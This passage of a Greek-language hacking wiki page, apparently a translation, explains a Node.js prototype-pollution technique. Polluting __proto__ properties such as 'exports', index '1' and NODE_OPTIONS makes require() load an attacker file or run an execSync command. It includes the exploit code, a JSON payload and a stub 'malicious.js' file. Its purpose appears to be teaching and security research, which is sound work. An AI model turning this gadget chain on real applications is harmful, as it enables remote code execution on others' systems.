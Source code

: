{% tab title="κακόβουλο.js" %}
```javascript
const { fork } = require('child_process');
console.log("Hellooo from malicious");
fork("anything");
```
{% endtab %}
{% endtabs %}

#### Σχετική απαίτηση - 1

Εάν φορτώνεται ένα **σχετικό μονοπάτι** αντί για ένα απόλυτο μονοπάτι, μπορείτε να κάνετε τον κόμβο να **φορτώσει ένα διαφορετικό μονοπάτι**:

{% tabs %}
{% tab title="εκμετάλλευση" %}
{% code overflow="wrap" %}
```javascript
// Create a file called malicious.js in /tmp
// Contents of malicious.js in the other tab

// Manual Pollution
b = {}
b.__proto__.exports = { ".": "./malicious.js" }
b.__proto__["1"] = "/tmp"

// Trigger gadget
var proc = require('./relative_path.js');
// This should execute the file /tmp/malicious.js
// The relative path doesn't even need to exist


// Abusing the vulnerable code
USERINPUT = JSON.parse('{"__proto__": {"exports": {".": "./malicious.js"}, "1": "/tmp", "NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\\\"child_process\\\").execSync(\\\"touch /tmp/pp2rce_exports_1\\\").toString())//"}}')

clone(USERINPUT);

var proc = require('./relative_path.js');
// This should execute the file /tmp/malicious.js wich create the file /tmp/pp2rec
```
{% endcode %}
{% endtab %}

{% tab title="κακόβουλο.js" %}
```javascript
const { fork } = require('child_process');
console.log("Hellooo from malicious");
fork('/path/to/anything');
```
{% endtab %}
{% endtabs %}
